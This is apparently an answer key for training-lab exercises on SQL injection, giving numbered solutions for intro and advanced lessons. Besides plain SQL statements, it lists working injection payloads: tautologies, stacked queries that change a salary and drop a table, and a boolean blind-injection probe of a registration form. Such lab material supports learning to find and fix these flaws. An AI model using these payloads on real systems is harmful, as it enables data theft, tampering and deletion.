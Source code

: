 # SQL Injection (Intro)
2. SELECT department FROM employees WHERE userid = 96134
3. UPDATE employees SET department = 'Sales' WHERE last_name = 'Barnett'
4. ALTER TABLE employees ADD phone varchar(20)
5. GRANT ALL ON grant_rights TO unauthorized_user
9. SELECT * FROM user_data WHERE first_name = 'John' and last_name = 'Smith' or '1' = '1'
10. SELECT * From user_data WHERE Login_Count = 1 and userid= 1 or 1=1
11. ' OR 1 =1 --
12. '; UPDATE employees SET salary=100000 WHERE last_name = 'Smith' -- 
13. '; DROP TABLE access_log

# SQL Injection (Advanced)
3. SELECT * FROM user_data WHERE last_name = 'Smith'; SELECT * FROM user_system_data --'
5. tom' AND '1'='1
    returns: User {0} already exists please try to register with a different username.

   tom' AND '1'='2
    returns: User tom' AND '1'='2 created, please proceed to the login page.

   what means that register form changes output based on bool value returned by query.